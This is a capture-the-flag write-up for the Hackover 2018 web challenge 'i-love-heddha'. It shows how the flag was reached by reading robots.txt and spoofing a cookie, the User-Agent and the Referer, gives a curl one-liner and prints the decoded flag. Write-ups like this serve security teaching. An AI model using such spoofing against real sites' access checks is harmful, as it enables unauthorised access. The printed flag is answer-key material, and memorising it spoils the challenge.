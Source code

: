 ## i-love-heddha
#### challenge
````
A continuation of the Ez-Web challenge. enjoy

207.154.226.40:8080
````
### idea
http://207.154.226.40:8080/robots.txt
```
User-agent: * Disallow: /flag/
```

http://207.154.226.40:8080/flag/
```
flag.txt (linking to falg.txt)
```

http://207.154.226.40:8080/flag/flga.txt
```
404 Error
```

http://207.154.226.40:8080/flag/flag.txt
```
Bad luck buddy
```
Set Cookie ```isAllowed=true```.
```
You are using the wrong browser, 'Builder browser 1.0.1' is required
```
Set User-Agent ```Builder browser 1.0.1```
```
You are refered from the wrong location hackover.18 would be the correct place to come from.
```
Set Referer ```hackover.18```
```
aGFja292ZXIxOHs0bmdyeVczYlMzcnYzclM0eXNOMH0=
```
This is the flag, base64 encoded.

### script
```shell
curl http://207.154.226.40:8080/flag/flag.txt --cookie "isAllowed=true" --header "User-Agent: Builder browser 1.0.1" --header "Referer: hackover.18" | base64 --decode
```

### flag
hackover18{4ngryW3bS3rv3rS4ysN0}

[more write-ups](../../)
